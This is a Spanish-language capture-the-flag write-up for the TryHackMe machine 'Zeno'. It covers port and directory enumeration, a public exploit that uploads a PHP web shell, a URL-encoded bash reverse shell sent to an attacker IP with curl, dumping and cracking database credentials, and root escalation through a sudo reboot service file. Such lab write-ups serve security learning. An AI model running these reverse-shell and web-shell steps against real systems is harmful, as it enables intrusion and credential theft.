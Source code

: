 ```yaml
---
title: Zeno - Tryhackme
date: 2023-12-10T00:00:00.000Z
categories:
  - Write up
  - Linux
  - Tryhackme
tags:
  - Pathfinder Hotel exploit
  - cracking
  - reboot
  - medium
---
```


# Zeno

Para lograr obtener el usuario root en esta maquina, tendremos que hacer uso de un exploit que nos permite subir un archivo `.php` malicioso que nos permita ejecutar comandos en la maquina victima para luego escalar privilegios inyectando un codigo malicioso en fichero que hace uso del binario `reboot`.

![20231127144335.png](20231127144335.png)

* Link [Zeno](https://tryhackme.com/room/zeno)
* Created by  [Biniru](https://tryhackme.com/p/Biniru)

## Walkthrough

***

### Enumeración

Iniciamos como en todas las maquinas realizando un nmap enumerando solo los puertos abiertos, ya que si lanzamos la enumeración de versiones y servicios esto tomara mucho tiempo.

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.196.185 -oG allportsScan
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
12340/tcp open  unknown syn-ack

```

Teniendo los puertos abiertos `22` y `12340` procederemos a enumerar las versiones y servicios que se ejecuten en este.

```php
❯ nmap -p22,12340 -sC -sV -Pn -n -vvv 10.10.196.185 -on servicesScan
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
```

Enumerando el puerto `12340` podemos ver un sitio web.

![20231127165825.png](20231127165825.png)

Ahora enumeramos los directorios del sitio web con la herramienta `ffuf`.

```php
❯ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 15 -u http://10.10.196.185:12340/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.196.185:12340/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 15
________________________________________________

rms                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 196ms]

```

El directorio del sitio web que encontramos es `rms`, visiatamos el sitio web [http://10.10.196.185:12340/rms/](2023-12-10-Zeno.md)

![20231127170435.png](20231127170435.png)

Luego seguimos enumerando directorios pero no encontramos nada interesante, también intentamos algunos ataques creándonos una cuenta.

Buscamos por el nombre que se tenia en el titulo y encontramos algo interesante, por lo que es importante buscar por sus nombres de la web y títulos para ver si encontramos algo que nos pueda ayudar a explotar.

![20231127183405.png](20231127183405.png)

### Explotación

En este caso encontramos un exploit que es [Pathfinder Hotel exploit ](https://www.exploit-db.com/exploits/47520)que nos permite subir un archivo.

```php
❯ python3 exploitHotelManagementSystemRCE.py http://10.10.196.185:12340/rms

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.10.196.185:12340/rms/images/reverse-shell.php

```

Por lo que subiremos un archivo php que nos permita ejecutar comandos, una web donde se tiene web shell de las que puedes revisar es la siguiente: [web-shells](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

Una vez que ya se subió el archivo malicioso podemos ejecutar comandos. La manera que suelo hacerlo es haciendo uso de `curl` pero con la revershell en [urlencode](https://www.urlencoder.org/)

```php
bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

Teniendo nuestra revershell en urlencode, realizaremos la peticion con nuestra revershell

```php
curl -s http://10.10.196.185:12340/rms/images/reverse-shell.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

Antes de realizar la petición debemos ponernos a la escucha con `ncat` para recibir la shell de la maquina victima.

### Escalada de privilegios

```php
❯ ncat -lvnp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.196.185:40880.
bash: no job control in this shell
bash-4.2$ whoami+
whoami
bash-4.2$ 
```

Enumerando encontraremos un archivo de configuracion con credenciales que haremos uso.

```php
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
bash-4.2$ 
```

Ingresando a la base de datos encontraremos credenciales que podemos hacer uso o al menos intentar algo.

```php
bash-4.2$ mysql -h localhost -u root -p dbrms
Enter password:  
```

![20231127192937.png](20231127192937.png)

```
Stephen :Omolewa:omolewastephen@gmail.com: 81dc9bdb52d04dc20036dbd8313ed055
John : Smith: jsmith@sample.com : 1254737c076cf867dc53d60a0364f38e
edward: zeno : edward@zeno.com : 6f72ea079fd65aff33a67a3f3618b89c
seven : seven : seven@gmail.com : 651f1b54904a1fdc5201ee24605418b7 
```

Una herramienta util es [Crackstation](https://crackstation.net/) y nos ayudara a crackear las contraseñas que estan hasheadas.

```php
Stephen :Omolewa:omolewastephen@gmail.com -> 1234
John : Smith: jsmith@sample.com -> jsmith123
```

Teniendo las credenciales en texto plano no se puede hacer mucho ya que ninguna es valida. Enumerando con [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) encontraremos una credencial valida que haremos uso para ingresar como `edward`

![20231127202949.png](20231127202949.png)

```php
/etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft    0 0
```

#### Usuario: Edward

![20231127221752.png](20231127221752.png)

Ahora como el usuario `edward` enumeraremos el sistema y permisos

```php
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot

```

Ejecutando el comando `sudo -l` podemos ver que tenemos permiso de reiniciar la maquina por lo que el siguiente post: [sudo-reboot-privilege-escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-reboot-privilege-escalation/) nos ayudara a inyectar un comando en un archivo que es `/etc/systemd/systm/example.service` para cambiar los permisos de la `/bin/bash`.

#### Usuario: root

![20231128000917.png](20231128000917.png)

¡VAMOS!

Happy hacking :)
